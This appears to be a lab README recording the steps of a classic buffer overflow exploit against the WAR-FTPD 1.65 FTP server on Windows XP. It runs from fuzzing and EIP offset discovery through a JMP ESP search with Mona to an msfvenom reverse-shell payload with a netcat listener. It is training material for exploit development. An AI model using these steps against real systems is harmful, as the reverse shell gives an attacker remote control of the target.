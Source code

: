 # Buffer overflow on FTP Server

## Requirements used

- [WAR-FTPD 1.65 (Vulnerable app)](https://mega.nz/file/TlJ3WKwD#iygtoFbCZMhVKLA6o1llXMz2-PJgohIu8GmInUXd7AI)
- [Immunity Debugger 1.85](https://mega.nz/file/W0oXwQhS#K-AbSqvedRNUsxc99SFpzcyrwpjiSbHurXuDofpGoDw)
- [Mona](https://github.com/corelan/mona)
- Windows XP SP3
- Kali Linux 2021

## History of commands on Bash

```bash
# Scan for open ports without ping and detect version
nmap -v -Pn -sV 192.168.0.11

# Script for test connection to FTP Server
python3 test-service.py

# Fuzzing when SLMail process is attached to Immunity Debugger
python3 fuzzing.py
# -- Access violation with 900 bytes

# Create a pattern for locate EIP register dump
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 900

# Run scsript with pattern
python3 crash-v1.py
# -- Access violation with EIP in 32714131

# Query offset in pattern that reach EIP
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 32714131
# -- match at offset 485

# Test if EIP is reached
python3 crash-v2.py
# -- Access violation with EIP in 04030201
# -- ESP register was filled with 'C' bytes

# Create a payload of shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.23 LPORT=9000 -b "\x00\x0d\x0a\x20\x40" -f python

# Run netcat and exploit in two terminals
nc -vnlp 9000
python3 exploit.py
```

## History on commands on Immunity Debugger

```bash
# Show infos about modules
!mona modules

# Find instruction JMP ESP (\xff\xe4) on module dll
!mona find -s "\xff\xe4" -m shell32.dll
# -- One of addresses is: 7C9D30D7
```

## References

- [Criando um exploit do zero by Ricardo Longatto](https://youtu.be/H2ZTTQX-ma4)
- [Bad char generator](https://github.com/cytopia/badchars)